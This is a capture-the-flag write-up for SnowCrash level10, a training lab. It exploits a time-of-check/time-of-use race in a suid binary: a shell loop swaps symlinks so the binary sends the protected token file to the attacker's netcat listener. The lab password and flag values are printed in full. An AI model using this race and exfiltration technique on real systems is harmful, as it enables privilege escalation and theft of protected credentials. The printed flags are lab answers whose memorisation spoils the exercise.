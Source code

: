 Level10's home contains level10 suid binary and a token file

Let's try to execute the binary

```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$
```
As show above the binary takes a file and host to send the content of the file to

If we tried to send token content we get an error

```
level10@SnowCrash:~$ ./level10 token 10.12.1.8
You don't have access to token
level10@SnowCrash:~$
```

Using ltrace to figure out the backgroud check that prevents us from sending token content 

```
level10@SnowCrash:~$ ltrace ./level10 token 10.12.1.8
__libc_start_main(0x80486d4, 3, 0xbffff7a4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                           = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)             = 31
+++ exited (status 31) +++
level10@SnowCrash:~$
```

It seems that the binary calls access to verify if the calling process have read access to the file
after that comes the call to open.

We will try to perform a race condition attack against access, by creating a symbolic link to a random file that we have read permission to, then change the symbolic link to token after the access functions complete its check.

We won't be able to do it manual because we need to change the symbolic link in a fraction of seconds.


```
while [ 1 ] ; do rm -rf /tmp/token; ln -s /tmp/file /tmp/token ; rm -rf /tmp/token ; ln -s ~/token /tmp/token; done &
```

Our host ip address is 10.12.1.8
Execute the binary in a loop wait for the race condition to work.

```
while [ 1 ] ; do ./level10 /tmp/token 10.12.1.8; done
```

And starting a netcat listener in our machine to listen for the password for flag10 user
```
[~]$ nc -lvk 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
```

```
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$
```